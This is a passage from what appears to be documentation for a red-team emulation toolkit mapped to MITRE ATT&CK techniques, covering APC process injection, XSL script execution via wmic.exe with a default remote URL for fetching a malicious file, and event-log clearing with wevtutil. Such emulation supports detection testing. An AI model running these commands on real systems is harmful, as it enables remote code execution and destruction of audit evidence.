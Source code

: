 | **Parameter** | **Description**                                              |
| ------------- | ------------------------------------------------------------ |
| filePath      | 将要注入进程的可执行文件位置，默认C:\\Windows\\system32\\notepad.exe |
| shellcode     | 注入的shellcode，默认执行"ping 127.0.0.1 -n 10"的shellcode   |



### [T1055.004](https://attack.mitre.org/techniques/T1055/004/) - Process Injection: Asynchronous Procedure Call

This module uses the CreateProcess, OpenProcess, VirtualAllocEx, WriteProcessMemory and QueueUserAPC Win32 API functions to inject an innocuous shellcode.

#### Parameters

| **Parameter** | **Description**                                              |
| ------------- | ------------------------------------------------------------ |
| filePath      | 将要注入进程的可执行文件位置，默认C:\\Windows\\system32\\notepad.exe |
| shellcode     | 注入的shellcode，默认执行"ping 127.0.0.1 -n 10"的shellcode   |



### [T1220](https://attack.mitre.org/techniques/T1220/) XSL - Script Processing

This module uses the CreateProcess Win32 API to execute

```
wmic.exe os get /FORMAT "$url”
```

#### Parameters

| **Parameter** | **Description**                                          |
| ------------- | -------------------------------------------------------- |
| url           | 下载恶意文件的url, 默认http://100.1.1.169:8080/T1220.xsl |



### [T1070.001](https://attack.mitre.org/techniques/T1070/001/) - Indicator Removal: Clear Windows Event Logs

#### Variations

| **Variation** | **Description**                                              |
| ------------- | ------------------------------------------------------------ |
| 1             | This module uses the System.Diagnostics .NET namespace to delete the Event Log. |
| 2             | This module uses the Win32 API CreateProcess to execute a specific command: `wevtutil.exe cl $eventType` |

#### Parameters

| **Parameter** | **Description**                                     |
| ------------- | --------------------------------------------------- |
| eventType     | 需要清理的事件类型：security/application/system之一 |
